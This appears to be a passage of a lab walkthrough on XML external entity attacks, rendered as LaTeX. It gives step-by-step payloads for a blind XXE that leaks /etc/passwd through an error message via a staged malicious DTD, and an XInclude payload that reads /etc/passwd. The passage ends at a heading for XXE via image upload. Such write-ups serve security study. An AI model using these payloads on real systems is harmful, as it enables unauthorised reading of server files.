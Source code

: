 \documentclass[
  letterpaper,
]{article}
\begin{document}
\subsubsection{3. Exploiting blind XXE to retrieve data via error
messages}\label{3-exploiting-blind-xxe-to-retrieve-data-via-error-messages}

\begin{quote}
Observe Submit feedback, paste xml file with the next content:
\end{quote}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
\end{Verbatim}

\begin{quote}
Check /product/stock page and paste the next XXE payload:
\end{quote}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
<?xml version="1.0" encoding="UTF-8" standalone='no'?><!DOCTYPE stockcheck [<!ENTITY % io7ju SYSTEM "http://localhost:41717/feedback/screenshots/1.xml">%io7ju; ]>
\end{Verbatim}

\begin{quote}
This will referrer to localhost with our previously created file and get
content of /etc/passwd via error message.
\end{quote}

\subsubsection{4. Exploiting XInclude to retrieve
files}\label{4-exploiting-xinclude-to-retrieve-files}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
\end{Verbatim}

\subsubsection{5. Exploiting XXE via image file
upload}\label{5-exploiting-xxe-via-image-file-upload}
\end{document}
